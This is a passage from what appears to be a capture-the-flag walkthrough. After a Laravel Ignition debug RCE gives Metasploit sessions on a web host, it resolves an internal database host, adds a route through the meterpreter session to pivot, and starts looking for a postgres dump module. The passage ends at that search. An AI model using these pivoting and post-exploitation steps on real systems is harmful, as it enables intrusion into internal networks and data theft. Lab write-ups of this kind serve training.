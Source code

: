AWS_ACCESS_KEY_ID=
AWS_SECRET_ACCESS_KEY=
AWS_DEFAULT_REGION=us-east-1
AWS_BUCKET=

PUSHER_APP_ID=
PUSHER_APP_KEY=
PUSHER_APP_SECRET=
PUSHER_APP_CLUSTER=mt1

MIX_PUSHER_APP_KEY="${PUSHER_APP_KEY}"
MIX_PUSHER_APP_CLUSTER="${PUSHER_APP_CLUSTER}"
```

### We can find the local IP to these services using meterpreter's resolve

```
meterpreter > resolve webservice_database

Host resolutions
================

    Hostname             IP Address
    --------             ----------
    webservice_database  172.28.101.51
```

## Routing this to the outsite so we can access these services.

We could try to access these services from inside the machine but may also try to use the current session we have on the web instance as a proxy as a way to get into these services.

We can background this session and add a route to the ip we found on the machine to a session to that machine. 

```
meterpreter > background 
[*] Backgrounding session 2...
msf6 exploit(multi/php/ignition_laravel_debug_rce) > sessions

Active sessions
===============

  Id  Name  Type                   Information            Connection
  --  ----  ----                   -----------            ----------
  1         shell cmd/unix                                10.18.22.237:4444 ->
                                                          10.10.220.131:58386 (
                                                          10.10.220.131)
  2         meterpreter x86/linux  www-data @ 172.28.101  10.18.22.237:4433 ->
                                   .50                    10.10.220.131:42078 (
                                                          172.28.101.50)

msf6 exploit(multi/php/ignition_laravel_debug_rce) > route add 172.28.101.51 2
[*] Route added
```

### Dumping the database

First let's find out it's schema

```
msf6 exploit(multi/php/ignition_laravel_debug_rce) > route add 172.28.101.51 2
[*] Route added
msf6 exploit(multi/php/ignition_laravel_debug_rce) > search postgres dump
